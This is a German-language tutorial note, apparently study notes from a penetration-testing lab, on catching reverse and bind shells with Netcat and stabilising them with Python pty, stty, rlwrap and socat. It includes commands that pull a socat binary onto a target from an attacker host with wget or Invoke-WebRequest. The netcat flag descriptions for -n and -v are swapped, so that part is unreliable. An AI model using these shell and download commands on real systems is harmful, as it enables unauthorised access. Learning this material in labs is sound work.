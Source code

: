 Netcat ist das traditionelle „Schweizer Taschenmesser“ der Netzwerktechnik. Es wird verwendet, um alle Arten von Netzwerkinteraktionen manuell auszuführen, einschließlich Dinge wie das Abgreifen von Bannern während der Enumeration/Bestandaufnahme des Ziels, aber noch wichtiger für unsere Zwecke ist, dass es verwendet werden kann, um Reverse-Shells zu empfangen und sich mit entfernten Ports zu verbinden, die mit Bind-Shells auf einem Zielsystem verbunden sind. Netcat-Shells sind standardmäßig sehr instabil (leicht zu verlieren), können aber durch Techniken verbessert werden.

# Basic Reverse/Bind Shell

Basic Reverse Shell Syntax mit Erklärung
```
nc -lvnp <portnummer>
```

nc -> Startet NetCat
-l  -> Stellt NetCat in den Listener Mode
-n -> Sorg für einen Verbose output
-v ->  weist netcat an, keine Hostnamen aufzulösen oder DNS zu verwenden
-p -> Indiziert das Netcat auf einem Port der folgt lauschen soll


Basic Bind Shell Syntax
```
nc <Ziel-IP> <Ausgewählter Port>
```


# Stabilisierung der Netcat Shell

### Technik 1: Python

Die erste Technik, ist nur auf Linux-Systemen anwendbar, da auf diesen fast immer Python standardmäßig installiert ist. Dies ist ein dreistufiger Prozess:

Als Erstes verwenden wir den Befehl `python -c ‚'import pty;pty.spawn(„/bin/bash“)'` der Python verwendet, um eine besser ausgestattete Bash-Shell zu erzeugen; dabei ist zu beachten, dass einige Ziele die angegebene Python-Version benötigen. Wenn dies der Fall ist, muss python je nach Bedarf durch python2 oder python3 ersetzt werden. Jetzt sieht unsere Shell etwas hübscher aus, aber wir können immer noch nicht die Tabulator-Autovervollständigung oder die Pfeiltasten benutzen, und Strg + C beendet die Shell immer noch.

Der zweite Schritt ist: `export TERM=xterm` -- damit haben wir Zugriff auf term-Befehle wie `clear`.

Schließlich (und am wichtigsten) werden wir die Shell mit Strg + Z in den Hintergrund stellen. Zurück in unserem eigenen Terminal verwenden wir `stty raw -echo; fg.` Dies bewirkt zweierlei: Erstens schaltet es unser eigenes Terminal-Echo aus (wodurch wir Zugriff auf die automatische Vervollständigung von Tabulatoren, die Pfeiltasten und Strg + C zum Beenden von Prozessen erhalten). Dann bringt es die Shell in den Vordergrund und beendet den Prozess.

Bebildertes Besipiel:
https://imgur.com/KL79nHJ
### Technik 2: rlwrap

rlwrap ist ein Programm, das, einfach ausgedrückt, den Zugriff auf den Verlauf, die automatische Vervollständigung der Tabulatoren und die Pfeiltasten ermöglicht, sobald man eine Shell erhält. Allerdings muss man sich noch manuell stabilisieren, wenn man in der Lage sein will, Strg + C in der Shell zu verwenden. rlwrap ist unter Kali nicht standardmäßig installiert, also installieren Sie es zuerst mit `sudo apt install rlwrap`.

Um rlwrap zu verwenden, muss ein etwas anderer Listener aufgerufen werden:

```
rlwrap nc -lvnp <Port>
```

Indem wir unserem netcat-Listener „rlwrap“ voranstellen, erhalten wir eine viel besser ausgestattete Shell. Diese Technik ist besonders nützlich, wenn man mit Windows-Shells zu tun hat, die ansonsten bekanntermaßen schwer zu stabilisieren sind. Bei einem Linux-Ziel ist es möglich, die Shell vollständig zu stabilisieren, indem Sie denselben Trick wie in Schritt drei der vorherigen Technik anwenden: Verlassen Sie die Shell mit Strg + Z, verwenden Sie dann stty raw -echo; fg, um die Shell zu stabilisieren und erneut zu starten.

### Technik 3: Socat

Die dritte einfache Möglichkeit, eine Shell zu stabilisieren, besteht darin, eine anfängliche netcat-Shell als Sprungbrett für eine voll ausgestattete socat-Shell zu verwenden. Diese Technik ist allerdings auf Linux-Ziele beschränkt, da eine Socat-Shell unter Windows nicht stabiler ist als eine netcat-Shell. Um diese Methode der Stabilisierung zu erreichen, würden wir zunächst eine statisch kompilierte Socat-Binärdatei (eine Version des Programms, die so kompiliert wurde, dass sie keine Abhängigkeiten hat) auf den Zielrechner übertragen. Ein typischer Weg, dies zu erreichen, wäre die Verwendung eines Webservers auf dem angreifenden Rechner innerhalb des Verzeichnisses, das Ihre socat-Binärdatei enthält (sudo python3 -m http.server 80), und dann, auf dem Zielrechner, die Verwendung der netcat-Shell, um die Datei herunterzuladen. Unter Linux würde dies mit curl oder wget geschehen 

```
wget <LOCAL-IP>/socat -O /tmp/socat
```


Der Vollständigkeit halber: In einer Windows-CLI-Umgebung kann dasselbe mit Powershell durchgeführt werden, indem entweder Invoke-WebRequest oder eine Webrequest-Systemklasse verwendet wird, je nach installierter Powershell-Version . Wir werden die Syntax für das Senden und Empfangen von Shells mit Socat in den kommenden Aufgaben behandeln.

```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
oder
```
iwr -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

#### GENAUERES IN EINTRAG SOCAT
